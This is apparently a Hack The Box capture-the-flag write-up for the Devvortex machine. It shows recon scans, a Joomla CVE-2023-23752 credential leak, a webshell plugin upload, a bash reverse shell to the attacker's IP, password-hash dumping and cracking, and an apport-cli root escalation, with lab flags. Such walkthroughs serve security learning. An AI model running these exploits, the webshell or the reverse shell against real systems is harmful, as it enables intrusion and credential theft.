




Recon
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.242
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| 256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_ 256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: DevVortex
| http-methods:
|_ Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)subdomains
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://devvortex.htb" -H "Host: FUZZ.devvortex.htb" --hl 7
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000019: 200 501 L 1581 W 23221 Ch "dev"nikto
nikto -h http://dev.devvortex.htb -C All
┌──(parallels㉿kali)-[~]
└─$ nikto -h http://dev.devvortex.htb/
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP: 10.10.11.242
+ Target Hostname: dev.devvortex.htb
+ Target Port: 80
+ Start Time: 2023-12-01 16:28:25 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /robots.txt: Entry '/libraries/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/language/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/cache/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /api/: Retrieved x-powered-by header: JoomlaAPI/1.0.
+ /robots.txt: Entry '/plugins/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/administrator/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/cli/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/components/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/includes/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/layouts/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/tmp/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/modules/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: contains 15 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ /administrator/: This might be interesting.
+ /home/: This might be interesting.
+ /includes/: This might be interesting.
+ /tmp/: This might be interesting.
+ /LICENSE.txt: License file found may identify site software.feroxbuster
feroxbuster --url http://dev.devvortex.htb --depth 2 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 502,404,301
was uselessweb
http://devvortex.htb/index.html


robots.txt
User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/admin joomla login page

Initial foodhold
1: Joomla CVE
The joomla version is disclosed in /README.txt (version → 4.x). There exisits a public exploit which allows unauthorized access.
https://github.com/Acceis/exploit-CVE-2023-23752
- Download exploit
git clone https://github.com/Acceis/exploit-CVE-2023-23752.git cd exploit* gem install httpx docopt paint - Run exploit
┌──(parallels㉿kali)-[~/Desktop/HTB/Devvortex/exploit-CVE-2023-23752] └─$ sudo ruby exploit.rb http://dev.devvortex.htb:80 Users [649] lewis (lewis) - lewis@devvortex.htb - Super Users [650] logan paul (logan) - logan@devvortex.htb - Registered Site info Site name: Development Editor: tinymce Captcha: 0 Access: 1 Debug status: false Database info DB type: mysqli DB host: localhost DB user: lewis DB password: P4ntherg0t1n5r3c0n## DB name: joomla DB prefix: sd4fg_ DB encryption 0Credentials → lewis:P4ntherg0t1n5r3c0n##
- Try logging in on http://dev.devvortex.htb/administrator/ → succes

2: Joomla RCE
Message on the top says PHP 7.4.3 is used. We might be able to create a webpage and establish a reverse shell.
https://github.com/p0dalirius/Joomla-webshell-plugin
- Download plugin from GitHub
- Upload .zip in Joomla
→ System > Extensions > Browse File
- Activate site module in Content > Site Modules
- Execute commands
┌──(parallels㉿kali)-[~/Desktop/HTB/Devvortex/exploit-CVE-2023-23752] └─$ curl -X POST 'http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=id" {"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"} - Interactive shell
python3 console.py -t http://dev.devvortex.htb/ # Get bash shell using nc listener nc -lvp 4444 bash -c 'exec bash -i &>/dev/tcp/10.10.16.6/4444 <&1'id
uid=33(www-data) gid=33(www-data) groups=33(www-data)/etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false logan:x:1000:1000:,,,:/home/logan:/bin/bash _laurel:x:997:997::/var/log/laurel:/bin/falsewritable folders
find / -type d -writable 2>/dev/null/var/www/dev.devvortex.htb/* /var/tmp
Mysql
Earlier we obtained the mysql credentials of user lewis. Now that we have access to the system we can probably also access the db.
- Login to db
mysql -u lewis -p -D joomla - Can’t see mysql shell, so i’ll need to upgrade the shell to a full TTY first
python3 -c 'import pty; pty.spawn("/bin/bash")' CTRL+Z stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset; - Now try again → we have a full shell
- Get tables
content
mysql> show tables; +-------------------------------+ | Tables_in_joomla | +-------------------------------+ | sd4fg_action_log_config | | sd4fg_action_logs | | sd4fg_action_logs_extensions | | sd4fg_action_logs_users | | sd4fg_assets | | sd4fg_associations | | sd4fg_banner_clients | | sd4fg_banner_tracks | | sd4fg_banners | | sd4fg_categories | | sd4fg_contact_details | | sd4fg_content | | sd4fg_content_frontpage | | sd4fg_content_rating | | sd4fg_content_types | | sd4fg_contentitem_tag_map | | sd4fg_extensions | | sd4fg_fields | | sd4fg_fields_categories | | sd4fg_fields_groups | | sd4fg_fields_values | | sd4fg_finder_filters | | sd4fg_finder_links | | sd4fg_finder_links_terms | | sd4fg_finder_logging | | sd4fg_finder_taxonomy | | sd4fg_finder_taxonomy_map | | sd4fg_finder_terms | | sd4fg_finder_terms_common | | sd4fg_finder_tokens | | sd4fg_finder_tokens_aggregate | | sd4fg_finder_types | | sd4fg_history | | sd4fg_languages | | sd4fg_mail_templates | | sd4fg_menu | | sd4fg_menu_types | | sd4fg_messages | | sd4fg_messages_cfg | | sd4fg_modules | | sd4fg_modules_menu | | sd4fg_newsfeeds | | sd4fg_overrider | | sd4fg_postinstall_messages | | sd4fg_privacy_consents | | sd4fg_privacy_requests | | sd4fg_redirect_links | | sd4fg_scheduler_tasks | | sd4fg_schemas | | sd4fg_session | | sd4fg_tags | | sd4fg_template_overrides | | sd4fg_template_styles | | sd4fg_ucm_base | | sd4fg_ucm_content | | sd4fg_update_sites | | sd4fg_update_sites_extensions | | sd4fg_updates | | sd4fg_user_keys | | sd4fg_user_mfa | | sd4fg_user_notes | | sd4fg_user_profiles | | sd4fg_user_usergroup_map | | sd4fg_usergroups | | sd4fg_users | | sd4fg_viewlevels | | sd4fg_webauthn_credentials | | sd4fg_workflow_associations | | sd4fg_workflow_stages | | sd4fg_workflow_transitions | | sd4fg_workflows | +-------------------------------+ 71 rows in set (0.01 sec) - Get credentials
mysql> select username,password from sd4fg_users; +----------+--------------------------------------------------------------+ | username | password | +----------+--------------------------------------------------------------+ | lewis | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u | | logan | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 | +----------+--------------------------------------------------------------+
3: Crack hashes
- Identify hash
Hash Type Identifier - Identify unknown hashes - Use this tool to identify, detect, and analyze hashes online
Possible algorithms → bcrypt $2*$, Blowfish (Unix)
- Crack using hashcat
hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho→ logan:tequieromucho
→ User flag: 2c067de34902641d46ce2274a69f4182
Priv escalation - apport-cli
- Check sudo rights
logan@devvortex:~$ sudo -l [sudo] password for logan: Matching Defaults entries for logan on devvortex: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User logan may run the following commands on devvortex: (ALL : ALL) /usr/bin/apport-cliCVE-2023-1326 POC - This vulnerability is privilege escalation in apport-cli 2.26.0, similar to CVE-2023-26604, this vulnerability only works if assign in…
- reproduce steps in writeup
less /etc/profile # at the bottom execute, this changes our shell !/bin/sh # execute the following command to file a bug sudo /usr/bin/apport-cli --file-bug # in the menu Input 1: select any option Input 2: Select 2 Input 3: V # Now while in the view report mode execute the following at the bottom !/bin/bash - We have root! Flag → 88985ca41c213d9049db957978587322